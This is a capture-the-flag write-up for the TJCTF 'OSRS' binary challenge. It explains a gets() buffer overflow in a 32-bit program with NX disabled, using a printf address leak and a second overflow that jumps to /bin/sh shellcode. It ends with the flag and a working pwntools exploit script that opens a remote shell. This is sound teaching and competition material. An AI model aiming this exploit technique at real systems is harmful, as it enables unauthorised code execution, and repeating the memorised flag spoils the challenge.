


# tjctf: binary

## OSRS

Written by KyleForkBomb

_My friend keeps talking about Old School RuneScape. He says he made a service to tell you about trees._

_I don't know what any of this means but this system sure looks old! It has like zero security features enabled..._

`nc p1.tjctf.org 8006`

## Attacking

<p align="center">

<br><i>zero security features</i> indeed
</p>

NX disabled clearly means that this will be a shellcode challenge, and a cursory glance at (cleaned) IDA will tell us just where that can be abused:

```c
char *trees[] = { "Normal", "The most common...", ... };
int get_tree()
{
  char s[0x100];
  int i;
  uint64_t padding; //padding added by compiler

  puts("Enter a tree type: ");
  gets(s); //BOF here!
  for (i = 0; i <= 12; ++i)
  {
    if (!strcasecmp(trees[2*i], s))
      return i;
  }
  printf("I don't have the tree %d :(\n", s);
  return -1;
}
```

Now, "_like_ zero security features" is a minor misdirection. ASLR is still enabled, and the stack address is only obtainable via the printf() leak of `s`.

The program ends right after that leak, so we'll have to reroute the return pointer towards `get_tree()` again for a 2nd buffer overflow, wherein we can allocate & jump to a `/bin/sh` shellcode.

```
input 1:
+---s[]---+-----r-----+
| garbage | get_tree()|
+--0x110--+-----4-----+
input 2:
+----s[]----+------r------+
| shellcode | addr of s[] |
+---0x110---+------4------+
```

There are two corollaries to the exploit that may not be immediately apparent without experience.

Firstly, `printf()` leaks the address of `s[]` with a `%d` format specifier. The negative number that is (likely to be) outputted must be converted to its hex form in accordance with [Two's complement](https://en.wikipedia.org/wiki/Two's_complement).

Secondly, the address of `s[]` is not constant. Because 4 bytes are used in jumping to `get_tree()` again, the correct adress of `s[]` for input 2 will be the leaked address +4. 

With that in mind, everything will work out fine:
<p align="center">

</p>

## flag

`tjctf{tr33_c0de_in_my_she115}`

## code

```python
from pwn import *
get_tree = ELF('./osrs').symbols['get_tree']
r_offset = 0x10C+4
r = remote('p1.tjctf.org', 8006)
r.sendlineafter(': \n', r_offset*'A' + p32(get_tree))
r.recvuntil('tree ')
s_addr = (1<<32)+int(r.recvuntil(' '))
sh = asm(shellcraft.i386.linux.sh(), arch='i386')
r.sendlineafter(': \n', sh.ljust(r_offset) + p32(s_addr+4))
r.interactive()
```
